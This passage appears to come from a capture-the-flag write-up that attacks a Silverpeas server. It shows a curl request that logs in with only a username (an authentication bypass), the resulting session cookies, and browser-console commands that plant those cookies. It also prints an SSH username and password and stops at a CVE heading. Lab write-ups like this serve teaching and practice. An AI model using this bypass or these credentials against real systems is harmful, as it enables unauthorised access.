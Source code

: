 **Or with cURL**:

```bash
$ curl "http://<target-url>:8080/silverpeas/AuthenticationServlet" -d "Login=scr1ptkiddy&DomainId=0" -H "content-type:application/x-www-form-urlencoded" -v
```



Notice that the `Login` field (presumably the username section) has the value **scr1ptkiddy**, which was found in step 2 (enumerating port 80).

**The response is as follows**:

```http
...

HTTP/1.1 302 Found
Set-Cookie: JSESSIONID=xxx; path=/silverpeas; HttpOnly
Set-Cookie: defaultDomain=0; path=/; ...
Set-Cookie: svpLogin=scr1ptkiddy; path=/; ...
Location: http://<target-url>:8080/silverpeas/Main//look/jsp/MainFrame.jsp
... 
```

Notice that the server returned the following URL value in the `Location` header:

`http://<target-url>:8080/silverpeas/Main//look/jsp/MainFrame.jsp`



The following cookies are found from the `Set-Cookie` response headers from the request above, and must be set in the browser (under the _**Console**_ tab for Google Chrome) for the dashboard to load. If not set, the page will redirect back to the login page (<mark style="color:red;">**\*\***</mark> _the cookie seems to be set automatically when using the proxy browser_):

```javascript
chrome-console> document.cookie = "JSESSIONID=xxx; path=/silverpeas";
chrome-console> document.cookie = "defaultDomain=0; path=/; ...";
chrome-console> document.cookie = "svpLogin=scr1ptkiddy; path=/; ...";
```

I visited the URL, and was navigated to a dashboard at the following URL:

`http://<target-url>:8080/silverpeas/look/jsp/MainFrame.jsp`

Now that we have found the dashboard page, and have the apprioprate cookies set in the browser, we can proceed to enumerate the webpage further, and gather more information. Furthermore, with the cookies set, this means that we are authenticated, and we are able to perform vulnerability exploit that requires authentication.

### How I found the SSH credentials (to gain an unprivileged shell on the server)

`tim`&#x20;

`cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol`



**Method 1: CVE 2023-47323**
